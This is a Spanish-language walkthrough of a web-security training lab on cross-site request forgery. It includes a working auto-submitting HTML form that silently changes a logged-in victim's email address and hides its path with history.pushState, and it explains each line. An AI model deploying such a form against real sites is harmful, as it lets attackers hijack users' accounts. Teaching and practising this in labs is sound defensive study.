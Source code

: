 # Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un foro público:
![image](https://github.com/user-attachments/assets/e24589e2-f7ab-40e7-9907-a8652fafccb6)

Nosotros sabemos que este laboratorio tiene una funcionalidad de cambio de email vulnerable a CSRF por lo tanto procedemos a autenticarnos con nuestro usuario `wiener:peter`:
![image](https://github.com/user-attachments/assets/c2a76d52-4b73-437a-8174-8ce90058d0e1)

Observamos el dashboard principal del usuario:
![image](https://github.com/user-attachments/assets/b928d13a-12ea-43b7-8bcb-6fbe4d8759e9)

Tenemos a la vista la funcionalidad de cambio de email, que se puede acceder mediante el botón `Update email`.

Procedemos a cambiar nuestro email para analizar el proceso:
![image](https://github.com/user-attachments/assets/ee3909bb-9fe2-46ea-b720-136de2531196)

Nosotros sabemos que para que exista vulnerabilidad `CSRF` necesitamos cumplir 3 condiciones:
- `Acción relevante`: Debe existir una acción que interese al atacante (en este caso cambio de email).
- `Manejo de sesión basado en cookies`: El sitio usa cookies automáticas para identificar al usuario, sin ningún otro mecanismo adicional de validación (ausencia de token CSRF).
- `Parámetros predecibles`: El atacante puede predecir o controlar los parámetros necesarios en la solicitud HTTP (en este caso manejamos un único parámetro `email`).

La aplicación es vulnerable a CSRF, por lo que enviamos la solicitud al `Repeater`, hacemos click derecho en la solicitud, luego `Engagement tools`, luego `Generate CSRF PoC`.
Nos aparece una nueva ventana, hacemos click en `Regenerate`:
![image](https://github.com/user-attachments/assets/57f0d957-62ab-4678-ae2c-6ccce0280f40)


`Nota`: Verificar en `Options` que esté tildado `Include auto-submit script`.

Obtuvimos el siguiente script:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a69009d03f08c4b800c032e004c005b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### ✍️ Análisis paso a paso

#### 1. `<!-- CSRF PoC - generated by Burp Suite Professional -->`

Comentario que indica que este es un **Proof of Concept** generado automáticamente por Burp Suite.

#### 2. `<form action=... method="POST">`

Se crea un formulario HTML que apunta a la ruta vulnerable donde se realiza el cambio de email. Utiliza el método **POST**, necesario para muchas operaciones críticas.

#### 3. `<input type="hidden" name="email" value="test&#64;test&#46;com" />`

Campo oculto que contiene el valor malicioso que se desea enviar. Se usa codificación HTML para los caracteres especiales:

* `&#64;` → `@`
* `&#46;` → `.`

Este campo simula que el usuario quiere cambiar su correo a `test@test.com`.

#### 4. `<input type="submit" value="Submit request" />`

Botón de envío tradicional. Aunque **no se usará manualmente**, es necesario para que el formulario sea válido.

#### 5. `<script> history.pushState('', '', '/'); document.forms[0].submit(); </script>`

Script que **automatiza** el ataque:

* `history.pushState('', '', '/')`: modifica la URL en la barra de direcciones para **ocultar el path del exploit** y hacerlo parecer más legítimo.
* `document.forms[0].submit();`: envía automáticamente el formulario cuando se carga la página.

---

### 💡 Resultado esperado

Si un usuario autenticado visita esta página:

* El navegador enviará el formulario POST a la aplicación vulnerable.
* El servidor usará las cookies del usuario (ya que son automáticamente incluidas).
* El email del usuario será modificado sin que se dé cuenta.

---





